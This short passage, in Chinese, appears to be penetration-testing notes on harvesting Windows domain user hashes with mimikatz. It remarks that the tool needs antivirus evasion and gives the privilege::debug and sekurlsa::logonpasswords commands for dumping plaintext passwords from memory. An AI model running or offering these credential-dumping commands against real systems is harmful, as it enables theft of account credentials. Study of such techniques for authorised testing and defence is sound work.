 ***
#### 域用户hash抓取  
##### mimikatz
只能抓取登陆过的用户hash，无法抓取所有用户,需要免杀  
1、本机测试直接获取内存中的明文密码  
```
privilege::debug
sekurlsa::logonpasswords
```
![](./pic/5/1.jpg)  
